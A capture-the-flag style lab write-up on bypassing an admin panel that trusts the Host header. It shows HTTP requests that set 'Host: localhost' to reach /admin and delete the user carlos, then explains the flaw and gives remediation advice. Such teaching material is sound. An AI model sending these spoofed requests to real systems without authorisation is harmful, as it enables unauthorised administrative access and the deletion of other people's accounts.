





# Lab: Host header authentication bypass

Some applications gate internal functionality — an admin panel, debug endpoints — behind a check for "is this request coming from localhost?" If that check inspects the `Host` header rather than the actual connecting address, the attacker can simply claim to be local.

To solve this lab, access the admin panel and delete the user `carlos`.

## 1. Confirm the admin panel is restricted

Browsing the shop normally works as expected:



Requesting `/admin` with the ordinary `Host` is refused with an explicit message:

```http
GET /admin HTTP/2
Host: YOUR-LAB-ID.web-security-academy.net
```

> `Admin interface only available to local users`



## 2. Supply Host: localhost

Send the same request to Repeater and change `Host` to `localhost`:

```http
GET /admin HTTP/2
Host: localhost
```

The response now renders the admin panel, including a delete link for each user:

```html
<a href="/admin/delete?username=carlos">Delete</a>
```



## 3. Follow the delete link with the same Host

The delete action is itself gated behind the same check, so the follow-up request also needs `Host: localhost`:

```http
GET /admin/delete?username=carlos HTTP/2
Host: localhost
```



## 4. Confirm the lab is solved

Reloading `/admin` with `Host: localhost` now shows the lab marked as solved:



## Why it works

The application's access-control logic treats a request as "local" purely by checking the value of the `Host` header, rather than the actual source of the TCP connection (or a trusted header set only by a reverse proxy that strips client-supplied values). Since `Host` is just another attacker-controlled request header, claiming `Host: localhost` is enough to satisfy a check that was meant to only ever be true for requests that never left the server.

## Remediation

- Never use `Host` to decide trust level or "is this internal." Determine request origin from the actual connection (source IP, mutual TLS, a network boundary) that an attacker cannot forge.
- If a reverse proxy needs to pass along the original client's address, use a header the proxy sets and the application trusts only from that proxy, after stripping any client-supplied value with the same name at the edge.
- Apply the same authorization checks to every endpoint reachable through the feature (listing, viewing, and the delete action), not just the entry page.
